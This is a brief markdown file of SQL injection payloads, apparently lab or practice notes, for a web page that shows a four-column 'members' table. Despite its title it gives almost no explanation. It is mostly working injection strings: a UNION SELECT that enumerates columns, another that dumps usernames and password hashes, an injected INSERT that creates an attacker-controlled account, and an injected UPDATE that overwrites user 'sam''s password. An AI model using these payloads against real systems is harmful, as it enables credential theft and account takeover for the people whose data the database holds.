 # This is a file with explanation of SQL injections and some examples




### Some SQL Injection attacks that could work when the table displayed on the webpage is 4 columns wide:

view all column names of table members
```
' AND 1=2 UNION SELECT COLUMN_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME = "members";
```

insert your own user
```
%'; INSERT INTO members (Username, Name, email, Password) VALUES ("flying_buffallo", "Mr. Buffallo", "buffallo@flying.de", "crackme" );
```

view all users and their password hashes
```
' AND 1=2 UNION SELECT Username, Password, NULL, NULL FROM members;
```

Update the password of the user sam
```
'; UPDATE members SET Password = "4b6ad7d194518aac02b072e6179dbf1e69ffa7ba" WHERE Username = "sam";
```